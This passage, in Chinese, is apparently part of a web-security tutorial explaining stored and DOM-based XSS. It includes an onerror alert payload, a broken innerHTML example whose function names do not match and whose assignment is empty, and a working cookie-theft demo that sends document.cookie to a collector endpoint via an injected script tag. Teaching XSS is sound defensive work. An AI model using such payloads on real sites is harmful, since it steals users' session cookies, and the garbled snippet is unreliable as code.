 #### 存储性 XSS

简述：和反射性相比，存储性往往危害更大，其是将恶意代码提交到服务器，存储在数据库中，具有很强的稳定性，用户只要访问到了这条存储的数据就会被 XSS 攻击。

场景：一般出现在保存的文章和一些论坛网站中

和反射性不同的是其不需要用户主动点击某个链接，它会在用户进入带有 XSS 攻击恶意代码的某篇文章或者评论，直接对用户进行 XSS 攻击。

#### DOM Based XSS

简述：该攻击主要是利用了 DOM 节点渲染机制来实施 XSS 攻击

场景：如使用 innerHTML 等 API，或者添加表单的 onclick，onerror 事件等

简单实现：

如：
我为文档添加一个 img 的标签，并且地址是错误的，那么他就会去执行 onerror 事件

```html
<img src="aaa" onerror="alert(123456789)" />
```

或者通过 innerHTML 直接对原 DOM 进行修改

```html
<div id="t"></div>
<input type="button" onclick="text()" />
```

```js
function test() {
  var str = document.getElementById("text").value;
  document.getElementById("t").innerHTML = "";
}
```

## 简单实现恶意代码攻击

这里以反射性为例，本质都一样，先写一个接口，接受到用户的 cookie 信息，这里如果想要存储，可以写入文件的形式

```js
app.get("/getCookie", (req, res) => {
  console.log(req.query.name);
});
```

然后在写一个 js 文件，那么为页面添加一个元素，该元素需要具有 src 等属性跨域加载资源的能力，这里使用的是 img。为什么不直接加载接口？因为 html 中不好拼接字符串，只能使用 js 拼接

```js
// test.js
var img = document.createElement("img");
img.src = "http://localhost:3002/getCookie?name=" + document.cookie;
document.body.appendChild(img);
```

然后在表单输入

```html
<script src="http://localhost:3002/test.js"></script>
```
